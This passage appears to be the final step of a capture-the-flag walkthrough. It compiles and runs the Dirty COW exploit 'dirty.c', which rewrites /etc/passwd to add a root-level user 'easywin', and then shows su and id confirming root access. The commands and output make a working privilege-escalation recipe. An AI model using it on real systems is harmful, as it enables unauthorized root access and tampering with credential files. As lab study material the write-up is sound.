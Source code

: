 Compile the exploit and run!

```sh
$ gcc dirty.c -o dirty -pthread -lcrypt
$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: q

Complete line:
easywin:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'easywin' and the password 'q'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'easywin' and the password 'q'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Read the `/etc/password` to check if the new user is good

```sh
$ cat /etc/passwd
easywin:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash
...
```

There is the new user `easywin` with the uid 0 (root)

```sh
$ su easywin
su easywin
Password: q

$ id
id
uid=0(easywin) gid=0(root) groups=0(root)

$ cd

$ ls
README

$ cat README
CONGRATULATIONS !!!!
To be continued...
```
